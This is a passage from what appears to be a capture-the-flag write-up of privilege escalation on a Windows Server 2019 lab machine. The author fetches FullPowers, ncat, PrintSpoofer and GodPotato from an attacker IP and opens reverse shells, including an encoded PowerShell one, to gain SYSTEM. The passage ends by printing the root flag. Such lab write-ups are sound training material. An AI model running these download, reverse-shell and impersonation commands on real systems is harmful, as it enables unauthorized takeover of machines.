BUILTIN\Users                          Alias            S-1-5-32-545                                                                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                   Well-known group S-1-5-6                                                                                          Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1                                                                                          Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11                                                                                         Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15                                                                                         Mandatory group, Enabled by default, Enabled group
LOCAL                                  Well-known group S-1-2-0                                                                                          Mandatory group, Enabled by default, Enabled group
                                       Unknown SID type S-1-5-32-3659434007-2290108278-1125199667-3679670526-1293081662-2164323352-1777701501-2595986263 Mandatory group, Enabled by default, Enabled group
                                       Unknown SID type S-1-5-32-383293015-3350740429-1839969850-1819881064-1569454686-4198502490-78857879-1413643331    Mandatory group, Enabled by default, Enabled group
                                       Unknown SID type S-1-5-32-2035927579-283314533-3422103930-3587774809-765962649-3034203285-3544878962-607181067    Mandatory group, Enabled by default, Enabled group
                                       Unknown SID type S-1-5-32-11742800-2107441976-3443185924-4134956905-3840447964-3749968454-3843513199-670971053    Mandatory group, Enabled by default, Enabled group
                                       Unknown SID type S-1-5-32-3523901360-1745872541-794127107-675934034-1867954868-1951917511-1111796624-2052600462   Mandatory group, Enabled by default, Enabled group


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeCreateGlobalPrivilege       Create global objects          Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

FullPowers.exe was then uploaded.

```shell
PS C:\tmp> wget http://10.10.14.8/FullPowers.exe -O FullPowers.exe
PS C:\tmp> ls


    Directory: C:\tmp


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        2/16/2024   5:20 AM          36864 FullPowers.exe
```

Not working. 



Running it in "verbose mode" shows something strange.

```shell
PS C:\tmp> .\FullPowers.exe -v
[*] Running in 'SERVER' mode.
[*] Current user is: 'LOCAL SERVICE'
[*] Current executable is: 'C:\tmp\FullPowers.exe'
[+] Started dummy thread with id 2788
[+] Successfully created scheduled task.
[*] Successfully deleted scheduled task.
[+] The task's process completed successfully, resuming dummy thread.
[*] Dummy thread called
[*] Enabling all privileges...
[*] OpenThreadToken() OK
[*] Dummy thread exited
[+] The dummy thread completed successfully.
[*] OpenThreadToken() OK
[*] GetTokenInformation() OK
[+] Got new token! Privilege count: 7
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.17763.4851]
(c) 2018 Microsoft Corporation. All rights reserved.
```

In the script it is written that the number of privileges is 7, but in reality we see only 3. It is strange. It is then decided to load ncat.exe and try to start a new remote shell.

```shell
PS C:\tmp> wget http://10.10.14.8/ncat.exe -O ncat.exe
PS C:\tmp> ls


    Directory: C:\tmp


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        2/16/2024   5:20 AM          36864 FullPowers.exe                                                        
-a----        2/16/2024   5:29 AM        1837568 ncat.exe                                                              


PS C:\tmp> .\FullPowers.exe -c "C:\tmp\ncat.exe 10.10.14.8 4444 -e cmd" -z

```

In the new shell one surprise.

```shell
$ ifconfig tun0 | grep inet && rlwrap nc -nvlp 4444
        inet 10.10.14.8  netmask 255.255.254.0  destination 10.10.14.8
        inet6 fe80::ef24:ab7b:6fcb:d2cf  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::1006  prefixlen 64  scopeid 0x0<global>
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.11.234] 49728
Microsoft Windows [Version 10.0.17763.4840]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\local service

C:\Windows\system32>whoami /all
whoami /all

USER INFORMATION
----------------

User Name                  SID     
========================== ========
nt authority\local service S-1-5-19


GROUP INFORMATION
-----------------

Group Name                             Type             SID                                                                                              Attributes                                        
====================================== ================ ================================================================================================ ==================================================
Mandatory Label\System Mandatory Level Label            S-1-16-16384                                                                                                                                       
Everyone                               Well-known group S-1-1-0                                                                                          Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545                                                                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                   Well-known group S-1-5-6                                                                                          Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1                                                                                          Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11                                                                                         Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15                                                                                         Mandatory group, Enabled by default, Enabled group
                                       Unknown SID type S-1-5-87-343222087-845000640-1675840783-1352364494-2876961185                                    Enabled by default, Enabled group, Group owner    
LOCAL                                  Well-known group S-1-2-0                                                                                          Mandatory group, Enabled by default, Enabled group
                                       Unknown SID type S-1-5-32-3659434007-2290108278-1125199667-3679670526-1293081662-2164323352-1777701501-2595986263 Mandatory group, Enabled by default, Enabled group
                                       Unknown SID type S-1-5-32-383293015-3350740429-1839969850-1819881064-1569454686-4198502490-78857879-1413643331    Mandatory group, Enabled by default, Enabled group
                                       Unknown SID type S-1-5-32-2035927579-283314533-3422103930-3587774809-765962649-3034203285-3544878962-607181067    Mandatory group, Enabled by default, Enabled group
                                       Unknown SID type S-1-5-32-11742800-2107441976-3443185924-4134956905-3840447964-3749968454-3843513199-670971053    Mandatory group, Enabled by default, Enabled group
                                       Unknown SID type S-1-5-32-3523901360-1745872541-794127107-675934034-1867954868-1951917511-1111796624-2052600462   Mandatory group, Enabled by default, Enabled group


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State  
============================= ========================================= =======
SeAssignPrimaryTokenPrivilege Replace a process level token             Enabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Enabled
SeAuditPrivilege              Generate security audits                  Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Enabled
```

Obtained a new shell with utility "`nt authority\local service`" with privilege "SeImpersonatePrivilege" enabled.

Target is "Microsoft Windows Server 2019 Standard". 

```shell
C:\tmp>systeminfo

Host Name:                 VISUAL
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00429-00521-62775-AA642
Original Install Date:     6/10/2023, 9:08:12 AM
System Boot Time:          2/16/2024, 3:29:22 AM
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
                           [02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.16707776.B64.2008070230, 8/7/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume2
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:     4,095 MB
Available Physical Memory: 3,035 MB
Virtual Memory: Max Size:  4,799 MB
Virtual Memory: Available: 3,864 MB
Virtual Memory: In Use:    935 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet0 2
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.11.234
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

It's "PrintSpoofer" Time.

```shell
C:\tmp>certutil -urlcache -f http://10.10.14.8/PrintSpoofer64.exe PrintSpoofer64.exe
certutil -urlcache -f http://10.10.14.8/PrintSpoofer64.exe PrintSpoofer64.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

C:\tmp>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 82EF-5600

 Directory of C:\tmp

02/16/2024  05:35 AM    <DIR>          .
02/16/2024  05:35 AM    <DIR>          ..
02/16/2024  05:20 AM            36,864 FullPowers.exe
02/16/2024  05:29 AM         1,837,568 ncat.exe
02/16/2024  05:35 AM            27,136 PrintSpoofer64.exe
               3 File(s)      1,901,568 bytes
               2 Dir(s)   9,553,338,368 bytes free
```

```shell
C:\tmp>.\PrintSpoofer64.exe -i -c whoami
.\PrintSpoofer64.exe -i -c whoami
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[-] Operation failed or timed out.
```

Not working. Let's give GodPotato a try. The installed version of .NET is checked.

```shell
C:\tmp>reg query "HKLM\SOFTWARE\Microsoft\Net Framework Setup\NDP" /s
[...]

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Net Framework Setup\NDP\v4.0
    (Default)    REG_SZ    deprecated

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Net Framework Setup\NDP\v4.0\Client
    Install    REG_DWORD    0x1
    Version    REG_SZ    4.0.0.0
```

The version of .NET installed is 4.0.

```shell
C:\tmp>certutil -urlcache -f http://10.10.14.8/GodPotato-NET4.exe GodPotato-NET4.exe
certutil -urlcache -f http://10.10.14.8/GodPotato-NET4.exe GodPotato-NET4.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

C:\tmp>.\GodPotato-NET4.exe -cmd "cmd /c whoami"
.\GodPotato-NET4.exe -cmd "cmd /c whoami"
[*] CombaseModule: 0x140719851110400
[*] DispatchTable: 0x140719853416560
[*] UseProtseqFunction: 0x140719852792736
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] Trigger RPCSS
[*] CreateNamedPipe \\.\pipe\912348ec-d9b6-483e-95d6-92dd7696c185\pipe\epmapper
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 0000e802-0c8c-ffff-5325-10cab44d2325
[*] DCOM obj OXID: 0x5aaa2ab8a4b3c947
[*] DCOM obj OID: 0x7e5d12812193db01
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 856 Token:0x808  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 2948
nt authority\system
```

Bling Bling. Here is SYSTEM. The goal is to obtain a shell as a SYSTEM user. 

```shell
C:\tmp>.\GodPotato-NET4.exe -cmd "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AOAAiACwANAA0ADQANAApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AFUAVABGADgAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"
[*] CombaseModule: 0x140719851110400
[*] DispatchTable: 0x140719853416560
[*] UseProtseqFunction: 0x140719852792736
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] CreateNamedPipe \\.\pipe\ad89a2e1-0e5a-4cd5-adce-081f5be3edf6\pipe\epmapper
[*] Trigger RPCSS
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00007802-1074-ffff-bae7-c39cef73ab9f
[*] DCOM obj OXID: 0x2926f7920b4e433b
[*] DCOM obj OID: 0x18f9dd785212e878
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 856 Token:0x808  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 5020
```

```shell
$ ifconfig tun0 | grep inet && rlwrap nc -nvlp 4444
        inet 10.10.14.8  netmask 255.255.254.0  destination 10.10.14.8
        inet6 fe80::ef24:ab7b:6fcb:d2cf  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::1006  prefixlen 64  scopeid 0x0<global>
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.11.234] 49791

PS C:\tmp> whoami
nt authority\system
PS C:\tmp> hostname
VISUAL
```

Simply SYSTEM.

***root.txt***: 346e5aea54b633bc937757eaa56c8d75


